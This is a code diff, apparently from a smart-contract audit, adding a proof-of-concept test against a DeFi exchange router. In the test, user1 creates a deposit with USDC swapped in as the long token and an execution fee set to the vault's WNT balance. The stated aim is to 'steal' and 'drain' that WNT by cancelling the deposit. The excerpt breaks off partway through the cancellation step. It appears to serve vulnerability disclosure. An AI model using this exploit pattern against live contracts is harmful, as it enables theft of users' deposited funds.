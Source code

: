 ```diff
+        exchangeRouter.interface.encodeFunctionData("sendWnt", [depositVault.address, expandDecimals(11, 18)]),
+        exchangeRouter.interface.encodeFunctionData("sendTokens", [
+          usdc.address,
+          depositVault.address,
+          expandDecimals(50 * 1000, 6),
+        ]),
+        exchangeRouter.interface.encodeFunctionData("createDeposit", [
+          {
+            receiver: user0.address,
+            callbackContract: user2.address,
+            market: ethUsdMarket.marketToken,
+            initialLongToken: ethUsdMarket.longToken,
+            initialShortToken: ethUsdMarket.shortToken,
+            longTokenSwapPath: [ethUsdMarket.marketToken, ethUsdSpotOnlyMarket.marketToken],
+            shortTokenSwapPath: [ethUsdSpotOnlyMarket.marketToken, ethUsdMarket.marketToken],
+            minMarketTokens: 100,
+            shouldUnwrapNativeToken: true,
+            executionFee,
+            callbackGasLimit: "200000",
+          },
+        ]),
+      ],
+      { value: expandDecimals(11, 18) }
+    );
+
+    // depositVault has WNT balance now
+    let vaultWNTBalance = await wnt.balanceOf(depositVault.address);
+    expect(vaultWNTBalance.eq(expandDecimals(11, 18)));
+
+    // user1 steal WNT from depositVault
+    await usdc.mint(user1.address, vaultWNTBalance.add(1));
+    await usdc.connect(user1).approve(router.address, vaultWNTBalance.add(1));
+
+    // Step 1. create deposit with malicious initialLongToken
+    await exchangeRouter.connect(user1).multicall(
+      [
+        exchangeRouter.interface.encodeFunctionData("sendTokens", [
+          usdc.address,
+          depositVault.address,
+          vaultWNTBalance.add(1),
+        ]),
+        exchangeRouter.interface.encodeFunctionData("createDeposit", [
+          {
+            receiver: user1.address,
+            callbackContract: user2.address,
+            market: ethUsdMarket.marketToken,
+            initialLongToken: usdc.address,       // use usdc instead of WNT
+            initialShortToken: ethUsdMarket.shortToken,
+            longTokenSwapPath: [],
+            shortTokenSwapPath: [],
+            minMarketTokens: 0,
+            shouldUnwrapNativeToken: true,
+            executionFee: vaultWNTBalance,
+            callbackGasLimit: "0",
+          },
+        ]),
+      ],
+    );
+
+    // Step 2. cancel deposit to drain WNT
+    const depositKeys = await getDepositKeys(dataStore, 0, 2);
+    // const deposit = await reader.getDeposit(dataStore.address, depositKeys[1]);
```